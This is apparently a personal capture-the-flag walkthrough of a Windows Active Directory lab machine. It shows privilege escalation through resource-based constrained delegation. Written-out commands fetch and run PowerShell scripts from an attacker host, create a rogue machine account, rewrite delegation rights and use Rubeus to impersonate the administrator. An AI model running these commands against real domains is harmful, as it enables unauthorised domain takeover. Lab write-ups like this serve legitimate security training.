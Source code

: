We have 3 privilege that will see if we can escalate via them or not  

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.3:8080/Sherlock.ps1') | powershell -noprofile -
```


```
ModifiablePath    : C:\Users\support\AppData\Local\Microsoft\WindowsApps
IdentityReference : SUPPORT\support
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\support\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\support\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath
                    'C:\Users\support\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```
![[Pasted image 20231121233510.png]]


```

```

![[Pasted image 20231122110410.png]]

![[Pasted image 20231122110739.png]]

Will try to expose Generic All 
Bydefault Windows any Domain Users can create upto 10 machine 
Kerberos relay attack can happened but was patched.

Will have to download a few dependencies for it
![[Pasted image 20231122112507.png]]
Powermad.ps1
https://github.com/Kevin-Robertson/Powermad.git

PowerSploit Dev branch (i.e. -b dev) 
https://github.com/PowerShellMafia/PowerSploit

Sharpcollection
https://github.com/Flangvik/SharpCollection

Will use the Curl command to upload these to victims machine
```
curl 10.10.16.3:8080/Rubeus.exe -o Rubeus.exe
```

Another way to upload if curl don't work
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3:8080/Powermad.ps1')
```
![[Pasted image 20231122112828.png]]

Let's see if we can make new machines or not
```
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota
```

So let's abuse the all generic feature
```
New-MachineAccount -MachineAccount testing -Password $(ConvertTo-SecureString 'testing2023!' -AsPlainText -Force)
```
![[Pasted image 20231122113650.png]]

```
$ComputerSid = Get-DomainComputer testing -Properties objectsid | Select -Expand objectsid

S-1-5-21-1677581083-3380853377-188903654-5101
```

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer testing | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```


```
[*] Input password             : testing2023!
[*]       rc4_hmac             : 44903706DB895D7464D295E2FD7FC639
```
![[Pasted image 20231122114356.png]]

Now will perform behind similar of impersonation attack (i.e. S4u Active Directory service of user)

We got this error
![[Pasted image 20231122121317.png]]
Let's rerun the command as it is

So this command was the culprit bit will run all the command.
![[Pasted image 20231122121909.png]]
```
Get-DomainComputer $TargetComputer
```
![[Pasted image 20231122122115.png]]

It is taking all the computer in the target system that's why the error might be 


```
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Rubeus.exe hash /password:Summer2018!

Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt


```

```
[*] Input password             : Summer2018!
[*]       rc4_hmac             : EF266C6B963C0BB683941032008AD47F
```

We got the ticket successfully this time
![[Pasted image 20231122122419.png]]

So what we have done is that we will impersonate administrator and sign ticket on there behalf and if thing work as plan we can simply pysecex.py with this kerbros ticket.

